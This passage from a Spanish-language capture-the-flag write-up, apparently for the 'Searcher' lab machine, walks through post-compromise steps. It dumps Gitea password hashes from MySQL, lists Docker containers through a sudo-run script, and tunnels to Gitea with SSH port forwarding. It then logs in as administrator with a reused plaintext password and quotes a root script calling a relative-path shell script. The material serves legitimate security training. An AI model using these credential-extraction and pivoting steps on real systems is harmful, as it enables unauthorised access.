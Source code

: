Nos llama la atención la tabla `user`, si seleccionamos las columnas `name, passwd, passwd_hash_algo`, obtenemos la contraseña hasheada, pero sabemos el algoritmos utilizado:

```mysql
select name,passwd from user;
```
```mysql
+---------------+------------------------------------------------------------------------------------------------------+
| name          | passwd                                                                                               |
+---------------+------------------------------------------------------------------------------------------------------+
| administrator | ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2 |
| cody          | b1f895e8efe070e184e5539bc5d93b362b246db67f3a2b6992f37888cb778e844c0017da8fe89dd784be35da9a337609e82e |
+---------------+------------------------------------------------------------------------------------------------------+

+---------------+------------------+
| name          | passwd_hash_algo |
+---------------+------------------+
| administrator | pbkdf2           |
| cody          | pbkdf2           |
+---------------+------------------+
```

Esto es un *rabbit hole*, por lo que pasamos a inpeccionar el servicio *gitea*. Si volvemos a ver los servicios que corren en docker, vemos que en el `localhost:3000` corre un servicio:

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```
```docker
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up 52 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up 52 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Podemos hacer *port forwarding* en nuestra máquina para tratar de acceder:

```bash
ssh svc@ip -L 3000:localhost:3000
```

Si ahora accedemos a la [interfaz web](http://gitea.searcher.htb) de la aplicación, podremos loguearnos como `administrtator`, con una de las contraseñas que encontramos antes (`yuiu1hoiu4i5ho1uh`).

Dentro tendremos acceso a los scripts que podemos ejecutar como root. Destaca el script `system-checkup.py`:

```python
[...]
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
[...]
```
